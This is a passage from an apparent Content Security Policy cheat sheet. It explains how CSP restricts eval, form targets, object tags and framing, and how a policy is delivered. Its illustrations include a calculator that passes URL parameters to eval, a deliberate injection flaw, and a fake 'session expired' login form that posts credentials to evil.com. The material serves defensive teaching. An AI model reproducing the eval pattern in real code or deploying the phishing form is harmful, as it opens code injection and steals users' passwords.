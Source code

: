 will not work.
##### 3. Restricting Unsafe [[_content/dictionary#J|JavaScript]]¶
By preventing the page from executing text-to-JavaScript functions like eval, the website will be safe from vulnerabilities like the this:
// A Simple Calculator
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);

##### 4. Restricting Form submissions¶
By restricting where [[_content/dictionary#H|HTML]] forms on your website can submit their data, injecting phishing forms won't work either.
<form method="[[_content/dictionary#P|POST]]" action="https://evil.com/collect">
<h3>Session expired! Please login again.</h3>
<label>Username</label>
<input type="text" name="username"/>

<label>Password</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>

##### 5. Restricting Objects¶
And by restricting the [[_content/dictionary#H|HTML]] object tag, it also won't be possible for an attacker to inject malicious flash/Java/other legacy executables on the page.
#### Defense against framing attacks¶
Attacks like clickjacking and some variants of browser side-channel attacks (xs-leaks) require a malicious website to load the target website in a frame.
Historically the X-Frame-Options header has been used for this, but it has been obsoleted by the frame-ancestors [[_content/dictionary#C|CSP]] directive.
#### Defense in Depth¶
A strong CSP provides an effective second layer of protection against various types of vulnerabilities, especially [[_content/dictionary#X|XSS]]. Although CSP doesn't prevent web applications from containing vulnerabilities, it can make those vulnerabilities significantly more difficult for an attacker to exploit.
Even on a fully static website, which does not accept any user input, a CSP can be used to enforce the use of [Subresource Integrity ([[_content/dictionary#S|SRI]])](https://developer.mozilla.org/en-[[_content/dictionary#U|US]]/docs/Web/Security/Subresource_Integrity). This can help prevent malicious code from being loaded on the website if one of the third-party sites hosting [[_content/dictionary#J|JavaScript]] files (such as analytics scripts) is compromised.
With all that being said, CSP should not be relied upon as the only defensive mechanism against XSS. You must still follow good development practices such as the ones described in [[Cross_Site_Scripting_Prevention_Cheat_Sheet|Cross-Site Scripting Prevention Cheat Sheet]], and then deploy CSP on top of that as a bonus security layer.
### Policy Delivery¶
You can deliver a Content Security Policy to your website in three ways.
#### 1. Content-Security-Policy Header¶
Send a Content-Security-Policy [[_content/dictionary#H|HTTP]] response header from your web server.
Content-Security-Policy: ...
